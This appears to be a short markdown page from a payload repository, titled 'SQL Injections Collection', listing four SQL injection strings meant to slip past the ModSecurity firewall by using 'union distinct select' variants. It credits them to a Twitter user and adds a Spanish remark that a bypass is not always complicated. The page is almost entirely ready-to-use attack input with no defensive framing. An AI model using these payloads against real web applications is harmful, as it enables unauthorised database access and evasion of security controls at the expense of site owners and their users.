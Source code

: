 # SQL Injections Collection

## Samples

- sql injection mod_security bypass usando distinct, by [@_Y000_](https://twitter.com/_Y000_/status/1303092547959615491)
```
    -1' union+select+1+--+￼

    -1' union+distinct+select+1+--+￼

    -1' and union+distinct+select+1+--+￼

    -1' and .0union+distinct+select+1+--+￼

    un bypass no siempre es complicado
```

